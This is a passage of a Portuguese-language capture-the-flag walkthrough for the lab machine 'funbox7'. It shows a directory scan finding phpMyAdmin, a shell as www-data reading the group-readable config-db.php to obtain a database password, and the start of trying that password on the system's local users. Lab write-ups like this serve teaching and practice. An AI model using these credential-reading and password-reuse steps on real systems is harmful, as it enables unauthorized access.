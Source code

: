 ```lua
[####################] - 5m    122814/122814  450/s   http://192.168.0.3/phpmyadmin/ 
```

O phpmyadmin tem um arquivo de configuração que contem informações sobre o banco de dados.

```lua
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

Obs: Só foi possível acessar esse arquivo porque está configurado o grupo sendo do www-data.

```lua
www-data@funbox7:/etc/phpmyadmin$ ls -lh
ls -lh
total 44K
-rw-r--r-- 1 root root     2.1K Jul 10  2017 apache.conf
drwxr-xr-x 2 root root     4.0K Jul 10  2017 conf.d
-rw-r----- 1 root www-data  525 Sep 18  2020 config-db.php
-rw-r--r-- 1 root root      168 Jun 23  2016 config.footer.inc.php
-rw-r--r-- 1 root root      168 Jun 23  2016 config.header.inc.php
-rw-r--r-- 1 root root     6.2K Jun 23  2016 config.inc.php
-rw-r----- 1 root www-data    8 Sep 18  2020 htpasswd.setup
-rw-r--r-- 1 root root      646 Apr  7  2017 lighttpd.conf
-rw-r--r-- 1 root root      198 Jun 23  2016 phpmyadmin.desktop
-rw-r--r-- 1 root root      295 Jun 23  2016 phpmyadmin.service
```

Dessa forma, foi possível encontrar o usuário e senha do banco de dados. Foi realizada a tentativa de acessar o phpmyadmin com essas credenciais, o que foi possível, porém não havia nenhum conteúdo no banco de dados funcionando no sistema.

foi então que essa senha foi testada nos usuários encontrados no sistema.

```lua
ls /home
goat  harry  karla  oracle  sally
```
